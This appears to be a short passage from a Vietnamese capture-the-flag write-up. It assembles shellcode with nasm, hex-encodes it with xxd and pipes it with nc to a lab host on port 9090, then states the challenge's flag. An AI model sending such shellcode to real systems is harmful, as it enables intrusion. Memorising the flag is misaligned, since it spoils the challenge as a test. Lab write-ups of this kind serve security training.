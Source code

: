Chạy lệnh sau: (nhớ copy file asm vào desktop Kali)<br/>
<code>nasm soln_sc.asm</code><br/>
<code>xxd -ps soln_sc</code><br/>
<code>xxd -ps soln_sc | nc 192.168.100.210 9090</code><br/>
Cờ là <code>TableSauceDamned664</code>
